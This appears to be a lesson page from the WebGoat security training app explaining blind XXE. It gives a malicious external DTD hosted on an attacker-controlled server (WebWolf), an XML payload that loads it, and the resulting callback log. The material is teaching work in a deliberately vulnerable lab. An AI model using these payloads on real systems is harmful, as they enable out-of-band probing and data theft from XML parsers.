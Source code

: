== Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference an external DTD which we control on our own server.

As an attacker you have WebWolf under your control (*this can be any server under your control.*), you can for example use this server to ping it using `webWolfRootLink:landing[noLink]`

How do we use this endpoint to verify whether we can perform XXE?

We can again use WebWolf to host a file called `attack.dtd`, create this file with the following contents:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'webWolfRootLink:landing[noLink]'>
----

Now submit the form change the xml using to:

[source, subs="macros, specialcharacters"]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "webWolfLink:files/attack.dtd[noLink]">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
----

Now in WebWolf browse to 'Incoming requests' and you will see:

[source]
----
{
  "method" : "GET",
  "path" : "/landing",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
----

So with the XXE we are able to ping our own server which means XXE injection is possible. So with the XXE injection we are basically able to reach the same effect as we did in the beginning with the curl command.

